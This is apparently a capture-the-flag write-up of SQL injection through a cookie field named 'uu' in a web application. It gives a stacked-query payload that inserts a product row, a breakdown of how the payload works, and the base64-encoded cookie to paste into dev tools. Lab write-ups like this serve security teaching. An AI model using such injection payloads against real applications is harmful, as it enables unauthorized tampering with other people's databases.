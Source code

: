 #### Approach
1. Test for Injection Points
2. Use SQL Injection to create a new table entry
3. Leverage the Web Application to perform arbitrary file extraction to get the flag


#### Test for Injection Points
So we have a theory that we can inject into the `uu` field of the cookie some SQL commands. Let's test this by creating a `new` entry in the `products` table that would use an image we know exists on the server `static/images/moen_glenshire.jpg`.

If you have not already done so, register a user.

![register new user](images/register_new_user.png)

Build a payload for our cookie
```
';insert into products(name,image,text,price) values ('snipe','static/images/moen_glenshire.jpg','Go track down some grid squares',5.56)#
```

Lets' break down that SQL command so you understand what we are doing. `';` is going to terminate whatever previous command was running and start our SQL command. `insert into products(name,image,text,price)` means put into the columns: `name, image, text, and price` in the `products` table our `values`. So here we are putting the following values:
```
name = snipe
image = static/images/moen_glenshire.jpg
text = Go track down some grid squares
price = 5.56
```

Pop our payload into https://www.base64encode.org/ and get the following base64 encoded "cookie"

```
JztpbnNlcnQgaW50byBwcm9kdWN0cyhuYW1lLGltYWdlLHRleHQscHJpY2UpIHZhbHVlcyAoJ3NuaXBlJywnc3RhdGljL2ltYWdlcy9tb2VuX2dsZW5zaGlyZS5qcGcnLCdHbyB0cmFjayBkb3duIHNvbWUgZ3JpZCBzcXVhcmVzJyw1LjU2KSM=
```

Now, paste that base64 encoded text into the `uu` field in your browser's Dev Tools.
